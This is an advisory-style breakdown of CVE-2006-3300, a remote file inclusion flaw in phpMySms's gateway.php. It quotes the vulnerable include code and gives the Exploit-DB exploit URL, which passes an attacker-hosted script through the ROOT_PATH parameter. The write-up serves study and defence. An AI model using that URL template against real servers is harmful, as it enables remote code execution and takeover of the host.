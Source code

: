 Based on the provided information, here's a breakdown of the vulnerability:

**CVE ID:** CVE-2006-3300

**Root Cause:** The vulnerability lies in the `gateway.php` file of phpMySms v2.0 and earlier, where the `ROOT_PATH` variable is not properly sanitized. This allows for the inclusion of remote files via an HTTP GET request.

**Weaknesses/Vulnerabilities:**
*   **Remote File Inclusion (RFI):** The application directly includes a file path specified by the attacker via the `ROOT_PATH` GET parameter.

**Impact of Exploitation:**
*   **Arbitrary Code Execution:** By including a malicious script from a remote server, an attacker can execute arbitrary code on the server hosting the vulnerable application. This allows full control of the web server and potentially the entire system.
*   **Data compromise:** An attacker may gain access to sensitive data.

**Attack Vectors:**
*   **HTTP GET Request:** The attacker injects a URL to a malicious script into the `ROOT_PATH` parameter of a GET request to `gateway.php`.

**Required Attacker Capabilities/Position:**
*   The attacker needs to be able to send HTTP requests to the vulnerable application.
*  The attacker needs to host a malicious script on a server that is accessible to the vulnerable application.

**Technical Details from Exploit-DB:**

*   The vulnerable code snippet shows how the `config.php` file is included, either directly or using a potentially attacker-controlled `$ROOT_PATH` variable:
```php
if (($_POST[mode] == "1") or ($_GET[mode] == "1")) {
include ("config.php");
} else {
include ("$ROOT_PATH/config.php");
}
```
*   The exploit URL provided in the Exploit-DB entry is:
    `http://[site]/[sms location]/sms_config/gateway.php?ROOT_PATH=[evil_script]`

The provided information from Exploit-DB gives more context to the nature of the vulnerability, specifying the exact file and parameter involved and giving an exploit example.